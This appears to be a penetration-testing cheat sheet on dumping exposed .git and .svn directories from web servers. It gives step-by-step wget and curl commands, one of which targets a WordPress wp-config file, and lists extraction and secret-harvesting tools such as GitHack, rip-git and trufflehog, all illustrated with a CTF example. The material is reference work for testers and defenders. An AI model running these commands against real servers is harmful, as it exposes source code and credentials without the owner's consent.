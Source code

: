 # Insecure source code management

- [GIT - Source code management](#git---source-code-management)
  - [Github example with a .git](#github-example-with-a-git)
  - [Automatic way : diggit.py](#automatic-way--diggitpy)
  - [Automatic way : rip-git](#automatic-way--rip-git)
  - [Automatic way : GitHack](#automatic-way--githack)
  - [Harvesting secrets : trufflehog](#harvesting-secrets--trufflehog)
  - [Harvesting secrets : Gitrob](#harvesting-secrets--gitrob)
  - [Harvesting secrets : Gitleaks](#harvesting-secrets--gitleaks)
- [SVN - Source code management](#svn---source-code-management)
  - [SVN example (Wordpress)](#svn-example-wordpress)
  - [Automatic way : svn-extractor](#automatic-way--svn-extractor)

## GIT - Source code management

The following examples will create either a copy of the .git or a copy of the current commit.

### Github example with a .git

1. Check 403 error (Forbidden) for .git or even better : directory listing
2. Git saves all informations in log file .git/logs/HEAD (try 'head' too)
    ```powershell
    0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
    15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
    26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
    6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
    ```
3. Access to the commit based on the hash -> a directory name (first two signs from hash) and filename (rest of it).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c,
    ```powershell
    # create a .git directory
    git init test
    cd test/.git

    # download the file
    wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
    mkdir .git/object/26
    mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

    # display the content of the file
    git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
        tree 323240a3983045cdc0dec2e88c1358e7998f2e39
        parent 15ca375e54f056a576905b41a417b413c57df6eb
        author Michael <michael@easyctf.com> 1489390329 +0000
        committer Michael <michael@easyctf.com> 1489390329 +0000
        Initial.
    ```
4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
    mkdir .git/object/32
    mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

    git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
        040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
        100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
        040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
        100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
        040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
    ```
5. Read the data (flag.txt)
    ```powershell
    wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
    mkdir .git/object/cb
    mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
    git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
    ```

### Automatic way : diggit.py

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

### Automatic way : rip-git

```powershell
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

### Automatic way : GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://www.openssl.org/.git/
```

### Harvesting secrets : trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

### Harvesting secrets : Gitrob

> Gitrob is a tool to help find potentially sensitive files pushed to public repositories on Github. Gitrob will clone repositories belonging to a user or organization down to a configurable depth and iterate through the commit history and flag files that match signatures for potentially sensitive files.

```powershell
go get github.com/michenriksen/gitrob # https://github.com/michenriksen/gitrob
export GITROB_ACCESS_TOKEN=deadbeefdeadbeefdeadbeefdeadbeefdeadbeef
gitrob [options] target [target2] ... [targetN]
```

### Harvesting secrets - Gitleaks

> Gitleaks provides a way for you to find unencrypted secrets and other unwanted data types in git source code repositories.

```powershell
# Run gitleaks against a public repository
docker run --rm --name=gitleaks zricethezav/gitleaks -v -r  https://github.com/zricethezav/gitleaks.git

# Run gitleaks against a local repository already cloned into /tmp/
docker run --rm --name=gitleaks -v /tmp/:/code/  zricethezav/gitleaks -v --repo-path=/code/gitleaks

# Run gitleaks against a specific Github Pull request
docker run --rm --name=gitleaks -e GITHUB_TOKEN={your token} zricethezav/gitleaks --github-pr=https://github.com/owner/repo/pull/9000

or

go get -u github.com/zricethezav/gitleaks
```

## SVN - Source code management

### SVN example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
    ```powershell
    INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
    ```
2. Download interesting files
    * remove \$sha1\$ prefix
    * add .svn-base postfix
    * use first two signs from hash as folder name inside pristine/ directory (94 in this case)
    * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

### Automatic way : svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## Thanks to

- [bl4de, hidden_directories_leaks](https://github.com/bl4de/research/tree/master/hidden_directories_leaks)
- [bl4de, diggit](https://github.com/bl4de/security-tools/tree/master/diggit)
- [Gitrob: Now in Go - Michael Henriksen](https://michenriksen.com/blog/gitrob-now-in-go/)